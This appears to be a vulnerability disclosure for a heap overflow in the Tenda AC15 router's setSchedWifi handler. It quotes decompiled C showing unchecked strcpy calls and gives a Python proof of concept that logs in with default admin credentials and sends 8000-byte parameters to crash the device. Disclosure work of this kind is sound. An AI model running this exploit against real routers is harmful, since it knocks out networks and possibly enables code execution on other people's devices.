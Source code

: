 ## Tenda AC15 heap overflow vulnerability

### * Version

V15.03.05.19 (US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2680.html](https://www.tenda.com.cn/download/detail-2680.html)




### * Vulnerability Detail

In function setSchedWifi, the content obtained by the program from the parameter "schedStartTime" and "schedEndTime" are passed to local_24 and local_28, 
and then the local_24 and local_28 are directly copied into the local_34 heap through the strcpy function.
There is no size check, so there is a heap overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.

```c
void setSchedWifi(undefined4 param_1)

{
  int iVar1;
  undefined uVar2;
  bool bVar3;
  char acStack604 [256];
  undefined auStack348 [4];
  undefined auStack344 [128];
  undefined auStack216 [128];
  int local_58 [7];
  undefined4 local_3c;
  undefined4 local_38;
  undefined *local_34;
  char *local_30;
  char *local_2c;
  char *local_28;
  char *local_24;
  char *local_20;
  int local_1c;
  int local_18;
  int local_14;
  
  local_14 = 1;
  local_1c = 1;
  local_3c = 0;
  local_38 = 0;
  local_58[0] = 1;
  local_58[1] = 1;
  local_58[2] = 1;
  local_58[3] = 1;
  local_58[4] = 1;
  local_58[5] = 1;
  local_58[6] = 1;
  local_20 = (char *)FUN_0002ba8c(param_1,"schedWifiEnable",&DAT_000ee9f8);
  local_24 = (char *)FUN_0002ba8c(param_1,"schedStartTime",&DAT_000eeb64);
  local_28 = (char *)FUN_0002ba8c(param_1,"schedEndTime",&DAT_000eeb64);
  local_2c = (char *)FUN_0002ba8c(param_1,"timeType",&DAT_000eeb84);
  local_30 = (char *)FUN_0002ba8c(param_1,&DAT_000eeb88,"1,1,1,1,1,1,1");
  local_18 = 0;
  GetValue("wl.public.enable",&local_3c);
  if ((char)local_3c == '\0') {
    memcpy(&local_3c,&DAT_000ee9f8,2);
  }
  iVar1 = atoi(local_2c);
  if (iVar1 != 0) {
    sscanf(local_30,"%d,%d,%d,%d,%d,%d,%d",local_58,local_58 + 1,local_58 + 2,local_58 + 3,
           local_58 + 4,local_58 + 5,local_58 + 6);
  }
  SetValue("sys.sched.wifi.timeType",local_2c);
  local_34 = (undefined *)malloc(0x19);   //memory alloc
  local_1c = atoi(local_20);
  local_14 = mib2utc(local_24,local_28,local_30,auStack344,auStack216,0x80,0x80);
  if ((local_14 == 0) || (local_1c == 0)) {
    printf("%s\n%s\n",auStack344,auStack216);
    iVar1 = FUN_0008ce44(auStack344,auStack216);
    if ((iVar1 == 0) || (local_1c == 0)) {
      SetValue("nkgw.wlan.offtime.list1",auStack344);
      SetValue("nkgw.wlan.ontime.list1",auStack216);
      if (local_34 != (undefined *)0x0) {
        iVar1 = atoi((char *)&local_3c);
        bVar3 = iVar1 == 0;
        if (bVar3) {
          iVar1 = 0;
        }
        uVar2 = (undefined)iVar1;
        if (!bVar3) {
          uVar2 = 1;
        }
        *local_34 = uVar2;
        iVar1 = atoi(local_20);
        bVar3 = iVar1 == 0;
        if (bVar3) {
          iVar1 = 0;
        }
        uVar2 = (undefined)iVar1;
        if (!bVar3) {
          uVar2 = 1;
        }
        local_34[1] = uVar2;
        strcpy(local_34 + 2,local_24);  //here is overflow
        strcpy(local_34 + 10,local_28);   //here is overflow
        for (local_18 = 0; local_18 < 7; local_18 = local_18 + 1) {
          iVar1 = local_58[local_18];
          bVar3 = iVar1 == 0;
          if (bVar3) {
            iVar1 = 0;
          }
          uVar2 = (undefined)iVar1;
          if (!bVar3) {
            uVar2 = 1;
          }
          local_34[local_18 + 0x12] = uVar2;
        }
        FUN_00036a34(local_34,0);
  ...
}
```


### * POC

```python
import requests


cmd  = b'schedWifiEnable=0&schedStartTime=' + b'A' * 8000 + b'&schedEndTime=' + b'A' * 8000 + b'&timeType=0&day=1,1,1,1,1,1,1'


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/openSchedWifi/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()


```
